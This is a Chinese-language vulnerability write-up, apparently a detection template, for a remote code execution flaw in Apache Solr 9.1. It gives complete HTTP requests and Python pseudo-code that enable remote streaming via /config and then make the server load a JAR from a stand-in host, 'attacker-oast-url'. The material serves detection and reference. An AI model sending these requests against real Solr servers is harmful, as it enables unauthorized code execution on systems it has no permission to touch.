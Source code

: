 # Apache Solr 9.1 远程代码执行漏洞（apache-solr-rce）

## 漏洞简介
Apache Solr 9.1 存在远程代码执行（RCE）漏洞，攻击者可通过配置接口和流式处理功能，利用外部 JAR 加载机制实现任意代码执行。

## 影响范围
- 受影响产品：Apache Solr 9.1

## 漏洞原理
攻击者可通过未授权访问配置接口，开启 `requestDispatcher.requestParsers.enableRemoteStreaming`，随后利用 `stream.url` 参数加载远程恶意 JAR 文件，触发任意代码执行。

## 利用方式与攻击流程
1. 攻击者向 `/config` 接口发送请求，开启远程流式处理功能。
2. 利用 `debug/dump?param=ContentStreams` 接口，传入 `stream.url` 指向恶意 JAR。
3. 目标服务器加载并执行恶意代码。

## 探测原理与流程
### 请求包示例
1. 开启远程流式处理：
```http
POST /solr/gettingstarted_shard1_replica_n1/config HTTP/1.1
Host: target.com
Content-Type: application/json

{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
2. 触发远程加载：
```http
POST /solr/gettingstarted_shard2_replica_n1/debug/dump?param=ContentStreams HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=------------------------5897997e44b07bf9

--------------------------5897997e44b07bf9
Content-Disposition: form-data; name="stream.url"

jar:http://attacker-oast-url/test.jar?!/Test.class
--------------------------5897997e44b07bf9--
```

### 响应与判定逻辑
- OAST/Interactsh 平台收到 HTTP 请求，User-Agent 包含 Java。

### 伪代码
```python
# 步骤1：开启远程流式处理
requests.post('http://target.com/solr/gettingstarted_shard1_replica_n1/config', json={"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming":True}})
# 步骤2：触发远程加载
resp = requests.post('http://target.com/solr/gettingstarted_shard2_replica_n1/debug/dump?param=ContentStreams', files={"stream.url": "jar:http://attacker-oast-url/test.jar?!/Test.class"})
# 步骤3：OAST 监听
if oast_platform.has_interaction(user_agent_contains="Java"):
    print('存在 RCE 漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[开启远程流式处理]
    B --> C[发送恶意 JAR 加载请求]
    C --> D[OAST/Interactsh 监听]
    D --> E{是否收到 Java User-Agent 请求?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在 RCE 漏洞]
```

## 参考链接
- [360 Noah Blog 漏洞分析](https://web.archive.org/web/20230414152023/https://noahblog.360.cn/apache-solr-rce/) 